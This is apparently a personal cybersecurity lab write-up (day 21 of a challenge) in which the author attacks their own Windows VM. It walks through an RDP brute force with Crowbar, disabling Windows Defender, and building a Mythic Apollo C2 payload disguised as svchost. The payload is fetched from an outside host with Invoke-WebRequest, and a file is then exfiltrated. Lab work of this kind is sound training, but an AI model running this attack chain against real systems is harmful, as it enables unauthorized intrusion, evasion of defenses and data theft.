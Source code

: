 # Day 21: Mythic Agent Setup
## Objective
In this section, I will learn how to perform a brute-force attack, generate a Mythic agent, and establish C2 (command and control).

## Steps
Firstly, if you can remember, we will extract passwords from a file on our Windows server called "passwords.txt." This is for demonstration purposes which is why it's referred to as a "fake" file in the attack diagram. Nonetheless, this will serve as data we will try to exfiltrate from the machine.

This time around, instead of going into the console via Vultr, I'm just going to RDP into the machine. I have no clue why I couldn't figure this out sooner, but here we are! I've learned a lot from this challenge, that's for sure.

<p align="center"><img src="https://i.imgur.com/WugLTVP.png"></p>
<p align="center"><i>Ref 1: Using RDP to connect to our Windows machine to create a file called "passwords.txt" that will serve as our target for the brute force attack we're going to perform!</i></p>
<br>

We're done with the Windows instance for now. Let's go to our Kali machine and start looking at the resources we have on hand.

Kali Linux comes with password dictionaries. We can find them using these commands:

<p align="center"><img src="https://i.imgur.com/mFWVBOH.png"></p>
<p align="center"><i>Ref 2: Preinstalled password dictionaries on Kali.</i></p>
<br>

We're going to be using `rockyou.txt`. As a proof of concept, I'm going to put my Windows machine's password into this text file. I know it's cheating, but since the purpose of this challenge is to learn how to brute force machines and how such attacks work, this is fine for now. As a note, I'm only going to use the top 50 passwords since the actual file is quite large. I used `head -50 rockyou.txt > /home/dsuyu/dsuyu-wordlist.txt` to save those top 50 (+ my Windows password) into the wordlist we'll use for the attack.

We'll be using Crowbar to perform an RDP brute force attack over to our Windows machine. To do this, I used the `crowbar -b rdp -u Administrator -C dsuyu-wordlist.txt -s 155.138.242.206/32` command. `-b` specifies the RDP service, `-u` is the user account, `-C` is the source of our passwords that we want to try to authenticate with, and `-s` specifies the specific IP address I want to use. `/32` means we're only interested in this specific IP address. I won't show the password for now, since somebody seeing the password while I'm still trying to complete the challenge would be problematic, to say the least.

<p align="center"><img src="https://i.imgur.com/M9g2wgK.png"></p>
<p align="center"><i>Ref 3: Crowbar successfully brute-forced the machine.</i></p>
<br>

Now that we have our credentials, we can RDP from our Kali machine by using `xfreerdp`. Running the command `xfreerdp /u:Administrator /p:[password] /v:155.138.242.206:3389`, we can RDP into the machine.

<p align="center"><img src="https://i.imgur.com/8iFtNp0.png"></p>
<p align="center"><i>Ref 4: I've successfully RDP'd into the machine!</i></p>
<br>

Looking at our attack diagram, once we've established a connection, the next step is to do some recon. For example, we can run the command `net user Administrator` to learn more about our privileges. In a real scenario, an attack might compromise an account, say, for example, "Steven," and they would have to run a command like `net user` to figure out what privileges they have or to what group they belong to. 

Once we've done reconnaissance, we can move to Phase 3: Defense Evasion. I'll turn off Windows Defender via the command line. We could also do this the BORING way by going into Settings and turning everything off.

<p align="center"><img src="https://i.imgur.com/ulBvkwF.png"></p>
<p align="center"><i>Ref 5: Disabling real-time monitoring from the command line.</i></p>
<br>

After Phase 3 follows Phase 4: Execution. In Phase 4, we need to create our Mythic agent and payloads. Any configuration needs to be done within the Mythic CLI.

We're going to be using the Apollo agent for our purposes. We can install it using the command `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`. You can find Apollo's documentation [here](https://github.com/MythicAgents/Apollo).

<p align="center"><img src="https://i.imgur.com/MDsXRQa.png"></p>
<p align="center"><i>Ref 6: Apollo now appears within our web GUI under "C2 profiles and payload types."</i></p>
<br>

Now, we can install a C2 profile. What is a C2 profile? A C2 profile provides a way to get messages off the wire and forward them to the Mythic server. In our case, we'll use the HTTP profile.

<p align="center"><img src="https://i.imgur.com/9FGS1kR.png"></p>
<p align="center"><i>Ref 7: Our HTTP C2 profile has been installed.</i></p>
<br>

Now how do we create a payload? Easy, just select the hazard icon at the top and make a new payload. We want the C2 profile to call back to our Mythic server, so we'll modify the callback host to be `http://207.148.3.13`.

<p align="center"><img src="https://i.imgur.com/Wr5zoYm.png"></p>
<p align="center"><i>Ref 8: Configuring our C2 profile.</i></p>
<br>

Now that we've made the payload and it's ready to download, we'll grab that download link and use `wget` to download it to our server.

<p align="center"><img src="https://i.imgur.com/CXR5uKH.png"></p>
<p align="center"><i>Ref 9: I've downloaded the payload onto our Mythic server, and I've renamed it so it looks less conspicuous.</i></p>
<br>

Cool! I made a directory called `1` and moved our new executable into there. Then, I started an HTTP server using Python with the `python3 -m http.server 9999` command on our Mythic server. Now that we're running that HTTP server, we can download the payload executable onto the compromised Windows server from our HTTP server by running `Invoke-WebRequest -Uri http://207.148.3.13:9999/svchost-dsuyu.exe -OutFile "C:\Users\Public\Downloads\svchost-dsuyu.exe"` from Windows PowerShell via our RDP connection to the Windows server.

<p align="center"><img src="https://i.imgur.com/VvBCRh3.png"></p>
<p align="center"><i>Ref 10: Downloading the payload onto our Windows server so we can establish a command and control connection.</i></p>
<br>

In other words, the command downloads the executable from our remote Mythic server. Executing the file means we're now receiving callbacks from our agent to our Mythic server. Effectively, the Windows machine is pwned and it's all over from here. Now, using our web GUI, we can run commands such as `ifconfig`, `whoami`, and most importantly, `download`. We're going to download that `passwords.txt` file we made earlier.

<p align="center"><img src="https://i.imgur.com/fZKlLww.png"></p>
<p align="center"><i>Ref 11: Within our C2 profile configuration, I enabled a few commands that we'd be able to run once we started receiving callbacks. Here, I'm running those commands.</i></p>
<br>

Notably, there were a few ports we had to open to make this all work out. For example, we had to open port 80 on our Mythic server so that the two servers could actually communicate over HTTP. I also allowed port 9999 on our Mythic server. Like before, we have to make firewall rules not only for the Vultr firewalls but also for our server firewalls.

## Summary
In this section, I conducted my own brute force attack using Kali Linux and Crowbar, RDP'd into the compromised Windows server and installed my Mythic agent along with a Mythic server. Using the Mythic server, I was able to run an HTTP server using Python so that I could install the payload from within my Windows server. Once the payload was installed and running, I could use the Mythic web GUI to run commands. I established a command and control connection thanks to the Apollo agent and HTTP C2 profile.

You can read more on C2 profiles [here](https://docs.mythic-c2.net/operational-pieces/c2-profiles).


